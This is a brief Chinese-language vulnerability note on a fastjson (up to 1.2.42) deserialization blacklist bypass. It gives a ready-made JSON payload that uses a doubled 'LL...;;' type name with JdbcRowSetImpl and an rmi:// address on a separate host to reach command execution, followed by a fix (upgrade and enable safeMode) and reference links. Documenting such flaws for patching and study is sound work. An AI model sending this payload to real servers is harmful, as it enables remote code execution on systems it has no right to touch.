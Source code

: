 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.42

1.2.42针对1.2.41进行了修补，取第二个字符到倒数第二个字符之间的内容做黑名单检查，但仍然被绕过，造成命令执行

### 二 漏洞利用
```
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"rmi://192.168.52.129:9999/rce_1_2_24_exploit",
	"autoCommit":true
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

### 四 漏洞分析
![img.png](img.png)

> 参考链接  
> https://www.cnblogs.com/0x28/p/14378708.html  
> https://www.cnblogs.com/huim/p/16566911.html
